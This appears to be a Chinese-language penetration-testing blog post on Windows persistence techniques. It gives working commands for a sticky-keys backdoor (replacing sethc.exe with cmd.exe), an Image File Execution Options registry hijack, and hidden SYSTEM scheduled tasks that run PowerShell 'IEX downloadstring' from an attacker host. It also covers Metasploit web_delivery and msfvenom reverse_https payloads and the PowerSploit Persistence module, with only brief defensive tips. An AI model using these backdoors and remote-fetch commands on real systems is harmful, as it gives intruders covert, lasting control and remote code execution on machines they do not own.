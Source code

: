 ```yaml
---
layout:    post
title:     内网渗透之权限维持
subtitle:  学习学习
date:      2021-11-02
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - 内网渗透
---
```


操作系统后门，泛指绕过目标系统安全控制体制的正规用户认证过程来维持对目标系统的控制权及隐匿控制行为的方法。系统维护人员可以清除操作系统中的后门，以恢复目标系统安全控制体系的正规用户认证过程。

### 一、操作系统后门

#### 1.1 粘滞键后门

粘滞键后门是一种比较常见的持续控制方法。

在Windows主机上连续按 5 次 "shift" 键，就可以调处粘滞键。Windows 的粘滞键主要是为无法同时按多个按键的用户设计的。例如，在使用组合键 "Ctrl+P" 时，用户需要同时按下 "Ctrl" 和 "P" 两个键，如果使用粘滞键来实现组合键 "Ctrl+P" 的功能，用户只需要按一个键。

连续按 5  次 "shift" 键，将弹出命令行窗口。因为此时用户并未登录，可以直接以 System 权限执行系统命令、创建管理员用户、登录服务器等。

[![IA6Ots.png](https://z3.ax1x.com/2021/11/03/IA6Ots.png)](https://imgtu.com/i/IA6Ots)

那么我们用其他的 exe 文件替换掉他，便会执行我们换掉的 exe 。

比如我们换个 cmd.exe , 就可在登录屏保界面连续按 5 次 shift 键 就可调出 cmd 窗口，因为此时用户并未登录，所以权限为 system 。

在Windows Vista之后的版本中，如果要替换sethc.exe，我们需要用到trustedinstaller权限，这是一个高于Administrator的权限。

修改方法见： [http://hackergu.com/power-sethc-cmd/]( http://hackergu.com/power-sethc-cmd/) 和 [http://www.xitongcheng.com/jiaocheng/win7_article_7880.html](http://www.xitongcheng.com/jiaocheng/win7_article_7880.html)

用可执行文件 sethc.exe.bak 替换 ``windows\system32`` 目录下的粘滞键可执行文件 sethc.exe，命令如下：

```
cd windows\system32
move sethc.exe sethc.exe.bak
copy cmd.exe sethc.exe
```

运行以上命令，在目标主机的远程登录窗口中按 5 次 "shift" 键即可触发后门，目标主机上会有一个命令框一闪而过：

[![IARMHU.png](https://z3.ax1x.com/2021/11/03/IARMHU.png)](https://imgtu.com/i/IARMHU)

针对粘滞键后门，可以采取如下防范措施：

+ 在远程登录服务器时，连续按 5 次 "shift" 键，判断服务器是否被入侵。
+ 拒绝使用 sethc.exe 或者在 "控制面板" 中关闭 "启用粘滞键" 选项。

#### 1.2 注册表注入后门 (映像劫持)

在普通用户权限下，攻击者会将需要执行的后门程序或者脚本路径填写到注册表键 ``HKCU:Software\Microsoft\Windows\Current\Run`` 中 (键名可以随便设置)。

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run   // 开启时启动程序
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit   // 登录时启动程序
```

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

[![IEyyN9.png](https://z3.ax1x.com/2021/11/03/IEyyN9.png)](https://imgtu.com/i/IEyyN9)

容易被查杀

#### 1.3 计划任务后门

计划任务在Windows7及之前版本的操作系统中使用at命令调用，在从Windows8 版本开始的操作系统中使用schtasks 命令调用。计划任务后门分为管理员权限和普通用户权限两种。管理员权限的后门可以设置更多的计划任务，例如重启后运行等。 计划任务后门的基本命令如下。该命令表示每小时执行一次 notepad.exe。

```
schtasks /Create /tn Updater /tr notepad.exe /sc hourly /mo 1
```

使用`schtasks /delete /tn updater`即可删除。

##### 1.3.1 MSF中模拟计划任务后门

可模拟在目标系统中快速建立会话行为。因为该行为不会被写入磁盘，所以安全防护软件不会对该行为进行检测。

```
use exploit/multi/script/web_delivery
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.78.131
set lport 443
set URIPATH /
exploit
```

[![IEc7lt.png](https://z3.ax1x.com/2021/11/03/IEc7lt.png)](https://imgtu.com/i/IEc7lt)

在目标系统中输入生成的后门代码，生成新的会话 (域控机器)

```
schtasks /create /tn WindowsUpdate /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring("http://192.168.78.131:8080/"))'" /sc onlogon /ru System
```

[![IVkAtf.png](https://z3.ax1x.com/2021/11/03/IVkAtf.png)](https://imgtu.com/i/IVkAtf)

目标机子访问网址，即可得到 session。



```
（1）用户登录 
schtasks /create /tn WindowsUpdate /tr "c:\windows\system32\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring("http://10.1.1.16:8080/EYoBVHcTfv"))'" /sc onlogon /ru System
 
(2)系统启动
schtasks /create /tn WindowsUpdate /tr "c:\windows\system32\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring("http://10.1.1.16:8080/EYoBVHcTfv"))'" /sc onstart /ru System
 
(3)系统空闲
schtasks /create /tn WindowsUpdate /tr "c:\windows\system32\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring("http://10.1.1.16:8080/EYoBVHcTfv"))'" /sc onidle /i 1
```

##### 1.3.2 在 powersploit 中模拟计划任务后门

使用PowerShell 版本的PowerSploit渗透测试框架的 Persistence模块，可以模拟生成一个自动创建计划任务的后门脚本。

将PowerSploit下的Persistence.psm1模块([https://github.com/PowerShellMafia/PowerSploit/blob/master/Persistence/Persistence.psm1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Persistence/Persistence.psm1))上传到目标系统中，输人如下命令。

```
Import-Module ./Persistence.psm1
```

然后，输入如下命令，使用计划任务的方法创建后门。该后门会在计算机处于空闲状态时执行，执行成功后会生成名为 "Persistence.ps1" 的脚本：

```
$ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
$UserOptions = New-UserPersistenceOption -ScheduledTask -OnIdle
Add-Persistence -FilePath ./shuteer.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose
```

[![InhEKe.png](https://z3.ax1x.com/2021/11/05/InhEKe.png)](https://imgtu.com/i/InhEKe)

在上述命令中，shuteer.ps1 是计划任务要执行的 payload。可以执行如下命令来生成该文件：

```
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.78.131 lport=443 -f psh-reflection -o shuteer.ps1
```

将 Persistence.ps1 放到 Web 服务器上，在目标主机中利用 powershell 加载并运行它。当主机处于空闲状态时，就会执行如下命令，反弹一个 meterpreter 会话：

```
powershell -nop -exec bypass -c "IEX (New-ObjectNet.WebClient).DownloadString('http://192.168.78.131/Persistence.ps1')"
```

[![InhmVA.png](https://z3.ax1x.com/2021/11/05/InhmVA.png)](https://imgtu.com/i/InhmVA)

##### 1.3.3 meterpreter 后门

+ Persistence

##### 1.3.4 WMI 后门

WMI型后门只能由具有管理员权限的用户运行。WMI型后门通常是用PowerShell编写的可以直接从新的WMI属性中读取和执行后门代码、给代码加密。通过这种方法，攻击者可以在系统中安装一个具有持久性的后门，且不会在系统磁盘中留下任何文件。WMI型后门主要使用了WMI的两个特征，即无文件和无进程。其基本原理是:将代码加密存储于WMI中，达到所谓的“无文件”;当设定的条件被满足时，系统将自动启动PowerShell 进程去执行后门程序，执行后，进程将会消失(持续时间根据后门的运行情况而定，一般是几秒).达到所谓的“无进程”。 Empire下的Invoke-WMI模块可以实现这种后门的利用。

### 二、web后门

Web后门俗称WebShell,是一段包含  ASP、ASP.NET、PHP、JSP程序的网页代码。这些代码都运行在服务器上。攻击者会通过一-段精心设计的代码，  在服务器上进行一些危险的操作，  以获取某些敏感的技术信息，或者通过渗透和提权来获得服务器的控制权。IDS、杀毒软件和安全工具一般都能将攻击者设置的Web后门检测出来。不过，有些攻击者会编写专用的Web后门来隐藏自己的行为。

#### 2.1 Nishang 下的 webshell

Nishang 是一款针对 PowerShell 的渗透测试工具，集成了框架、脚本(包括下载和执行、键盘记录、DNS、延时命令等脚本) 和 各种 payload，广泛应用于渗透测试的各个阶段。



### 三、域控制器权限持久化